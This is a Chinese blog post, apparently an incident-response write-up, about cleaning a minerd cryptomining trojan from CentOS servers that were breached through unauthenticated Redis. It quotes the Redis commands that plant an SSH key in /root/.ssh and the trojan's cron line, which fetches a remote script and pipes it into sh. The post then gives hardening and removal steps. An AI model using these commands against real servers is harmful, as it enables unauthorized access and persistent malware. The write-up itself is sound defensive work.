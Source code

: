 ```yaml
---
title: 彻底清除Linux centos minerd木马
categories:
  - 错误集锦
tags:
  - redis
date: 2016-10-26 22:41:19
toc: false
---
```


>前几天，公司两台linux服务器，一台访问速度很慢，cpu跑满，一台免密码登录失效，公钥文件被改写成redis的key。用htop命令查询发现了minerd木马进程，初步猜测是redis没有配访问权限造成的。网上查询minerd木马，发现这是一个很常见的挖矿程序，相关猜测也得到了验证。

下文是网上搜索到的清除minerd木马方法。

## 现状描述
1、top可以看到，这个minerd 程序把cpu跑满了

![1.jpg](1.jpg)
2、ps aux | grep minerd
可知是这个程序: /opt/minerd

<!-- more -->

这个不是我们自己启动的，可以断定服务器被黑了
这个进程是root用户启动的，代码有漏洞可能性不大（web服务是www用户启动的），多半黑客已经登录服务器了

![2.jpg](2.jpg)
3、有可能是免密登录了，去/root/.ssh 目录下，并没有发现authorized_keys，但发现了KHK75NEOiq这个文件

查看 vim KHK75NEOiq
可以看到内容就是免密码登录的公钥

![3.jpg](3.jpg)
4、在ssh的配置文件/etc/ssh/sshd_config中也可以看到把AuthorizedKeysFile指向了这个文件了（.ssh/KHK75NEOiq）

猜想是这样的：通过authorized_keys免密码登录后，在这个目录下创建了KHK75NEOiq这个文件，修改了AuthorizedKeysFile的指向，就把authorized_keys这个文件删除了。

![4.jpg](4.jpg)
5、那么是写进来authorized_keys的那？

之前我处理过类似的问题，是redis未授权导致的，也就是说外网可以直接不用密码登录我的redis, 连上redis后，通过以下命令即可创建文件：

<font style="color:red">**config set dir /root/.ssh
config set dbfilename authorized_keys
set key value，其中value为生成公钥，即可将公钥保存在服务器，使得登录时不需要输入账号与密码。**</font>

<br/>

---

## 先堵住免登录漏洞
1、修改ssh端口
编辑/etc/ssh/sshd_config文件中的Port 22将22修改为其他端口

2、禁止root用户登陆
编辑/etc/ssh/sshd_config文件中的PermitRootLogin 修改为no

3、修改无密码登陆的文件路径
编辑/etc/ssh/sshd_config文件中的AuthorizedKeysFile 修改为其他文件路径

4、删除 .ssh下的 KHK75NEOiq

5、不让外网直接连接
在 redis.conf 文件中找到#bind 127.0.0.1，把前面的#号去掉，重启

---

## 找到木马守护进程
1、通常直接kill掉进程，是不好使的，肯定有守护进程，还有系统自启动，所以清理步骤是这样的：
1）干掉守护进程
2）干掉系统自启动
3）干掉木马进程

找到木马守护进程并干掉

守护进程有大概有两种存在形式，crontab 和常驻进程，常驻进程得慢慢分析，我们先看crontab，有一条不是我创建的任务。任务是：直接从远程下载一个脚本pm.sh 并执行。

![5.jpg](5.jpg)

2、我们来看看这个脚本

![6.jpg](6.jpg)

3、大致逻辑是这样的：
1）把 */10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh 写入crontab
2）把authorized_keys删掉，并创建免登录文件/root/.ssh/KHK75NEOiq，修改ssh配置重启
3）curl下载/opt/KHK75NEOiq33 这个文件，并执行安装（/opt/KHK75NEOiq33 --Install），然后启动ntp

4、基本可以断定这个ntp就是守护进程，但看到ntp真的有些怕怕，ntp不是搞时间同步的吗，其实 Linux正常的ntp服务叫ntpd，并非ntp，很有迷惑性啊

![7.jpg](7.jpg)

5、但为了让自己放心，还是校验了一番
我们先从时间上校验，ntp是不是木马任务后创建的

查看这个木马任务第一次执行的时间
去/var/log下看cron的日志

![8.jpg](8.jpg)

6、Jul 24 09:23:01 第一次执行： curl -L http://r.chanstring.com/pm.sh?0703
Jul 24 09:30:01 第一次我们目前crontab里的任务：curl -fsSL http://r.chanstring.com/pm.sh?0706
Jul 24 09:49 脚本/etc/init.d/ntp的创建时间

从pm.sh这个脚本可知 curl下来/opt/KHK75NEOiq33这个文件，并执行安装 /opt/KHK75NEOiq33 --Install 比较耗时间，我执行了一下，在我的机器上是10多分钟。

所以创建时间上基本吻合

![9.jpg](9.jpg)

7、我们看一下ntp的随系统启动
runlevel 2 3 4 5都启动了，够狠的呀

![10.jpg](10.jpg)

8、看一下常用的3吧
可以看到 有个S50ntp 软链了脚本/etc/init.d/ntp

![11.jpg](11.jpg)

9、我们查看系统启动日志
vim /var/log/boot.log
有一条是Staring S50ntp，这个基本对应脚本/etc/init.d/ntp 中的 echo "Starting $name"

![12.jpg](12.jpg)

10、我们来看一下 /etc/init.d/ntp 这个脚本
$name应该就对应的值是 S50ntp，通过stdout_log,stderr_log,pid_file也得到了验证。

![13.jpg](13.jpg)

11、通过搜索安装文件（/opt/KHK75NEOiq33），可知看到 /opt/KHK75NEOiq33 --Install的过程中写入了ntp脚本 自启动 /opt/minerd等一系列的操作。

![14.jpg](14.jpg)

12、打开 /usr/local/etc/minerd.conf，内容就是/opt/minerd这个进程后的一些参数

![15.jpg](15.jpg)

13、好了 验证完毕，可以干掉这个ntp了

---

## 清理木马
1、去掉crontab文件中的有关木马内容：
/var/spool/cron/crontabs/root
/var/spool/cron/root

2、干掉守护进程ntp，并删除相关文件

![16.jpg](16.jpg)
![17.jpg](17.jpg)

3、干掉木马进程及其文件

![18.jpg](18.jpg)

4、干掉安装文件及免密登录的文件

![19.jpg](19.jpg)

5、干掉随系统启动的文件

![20.jpg](20.jpg)

6、top一下 一切都正常了！

![21.jpg](21.jpg)

7、重启一下，也没问题了

![22.jpg](22.jpg)